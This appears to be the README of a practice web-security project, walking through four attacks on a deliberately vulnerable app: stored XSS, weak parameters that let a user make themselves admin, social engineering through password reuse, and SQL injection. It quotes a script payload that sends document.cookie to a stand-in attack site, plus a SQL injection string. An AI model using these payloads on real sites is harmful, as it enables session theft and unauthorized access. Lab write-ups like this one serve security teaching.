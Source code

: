 The first example of an attack is the Persistent Cross Site Scripting attack (XSS). This is allows the attacker to insert a JS   <Script> tag into a form. When the browser renders the html in the public post, the browser will automatically execute the JS. 

For example, if you were to type
   <script> window.location= 'http://www.someattacksite.com/?cookie='+       
   	document.cookie </script>

The browser will render the message, send the user to the attack page, and will steal their cookie for that site. Normally, one cannot steal a users cookie, but since the original site has been the one to redirect, the browser considers it to be an original part of the site.



******************************************

Weak Params is the next vector possible. This occurs when the URL route does not specify the parameters that it will accept. For instance, you could copy and paste a user acount number and access another person's account or delete certain files if those features are available.

For this exercise, you are able to edit the html form when signing up as a new user. All you have to do is Inspect Element on the form, edit the form, and add yourself as an admin.

********************************************

Social Engineering is just straight creepy. You get to peruse the Twitter site linked looking for clues as to the User's possible credentials. People have a very bad habit of reusing the same passwords  for different sites.

Look at Bob's Username in the Hackkit User list. I think you can go from there.

********************************************

The final attack is a SQL injection. This attack is performed by slipping extra SQL commands into the methods of querying the database. The way through this challenge is to type the following, or something similar, into the Post search form. Voila! Anarchy!

'; Select * From Posts; --


Thanks for playing with my project! Leave me feedback on Github. My username is sbsample.